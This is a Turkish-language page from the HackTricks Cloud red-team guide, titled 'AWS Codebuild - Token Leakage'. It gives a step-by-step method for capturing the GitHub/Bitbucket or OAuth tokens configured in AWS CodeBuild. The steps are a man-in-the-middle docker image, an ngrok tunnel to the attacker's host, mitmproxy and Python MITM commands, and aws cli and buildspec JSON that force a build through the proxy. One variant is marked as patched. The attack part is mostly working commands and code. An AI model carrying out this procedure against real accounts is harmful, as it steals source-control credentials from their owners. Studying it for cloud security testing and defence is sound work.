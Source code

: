 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projenin derlemesini çalıştırmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **env değişkenlerini `https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
* Metadata uç noktasına yapılan istekleri kesmemek için **`http_proxy`**'yu ayarlamayın.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
* Docker görüntünüzü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızda MitM proxy'yi ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Yapıyı çalıştırın ve kimlik bilgilerini yakalayın**

*   Token'ı **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, 2023 Şubat ayının 20'si haftasında AWS tarafından bir noktada düzeltildi (sanırım Cuma günü). Bu nedenle bir saldırgan bunu artık kötüye kullanamaz :)**
{% endhint %}

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **koda erişmek için kullanılan geçici OAuth token'ını sızdırabilir**.

* Bir saldırgan, CodeBuild projesine kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ardından, github reposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Sonra, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresinden temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, makinesinden token'ı kullanarak, sahip olduğu tüm ayrıcalıkları listeleyebilir ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilir.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
